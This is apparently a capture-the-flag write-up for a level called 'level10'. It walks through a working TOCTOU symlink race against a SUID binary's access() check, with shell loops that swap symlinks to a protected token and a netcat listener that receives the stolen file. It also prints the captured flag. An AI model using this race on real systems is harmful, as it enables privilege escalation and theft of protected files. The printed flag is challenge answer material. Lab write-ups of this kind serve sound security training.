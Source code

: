 # Level10

[FRENCH version](README.md)

## How to get the flag

We can see that level10 is an executable and has a SUID.

There is also a token file which is only readable by flag10.

When running level10, the executable gives the following usage:

```
level10 file host
	sends file to host if you have access to it
```

When decompiling level10, you will notice that the program sends data to port 6969.
It also uses access() to check if you have access to the file.

We can start a netcat server that will listen on port 6969 with nc:

```
nc -lv localhost 6969
```

Whatever symbolic link we make, acces() returns an error.

To pass, we have to force it.

The goal is to force access to the token, even if we lack the right.

In a 1st terminal:

```
// Infinite loop: The goal is to create temporary links to infinity.
while true; do rm -rf /tmp/truc; touch /tmp/truc; ln -sfn ~/token /tmp/truc; done
```

Note that to pass access, the file MUST be created by the user, hence the touch.

In a 2nd terminal:

```
// Try to send the symbolic link to the server
while true; do (~/level10 /tmp/truc 127.0.0.1); done
```

In a 3rd terminal: 

```
// Loop playback on the server.
// We are obliged to make a loop because otherwise nc stops after 1 reception.
while true; do nc -l 6969 ;done
```

The flag to connect to user flag10 is: woupa2yuojeeaaed06riuj63c

## The flag

```
woupa2yuojeeaaed06riuj63c
```

This token allows you to connect to flag10 and get the token for level 11.
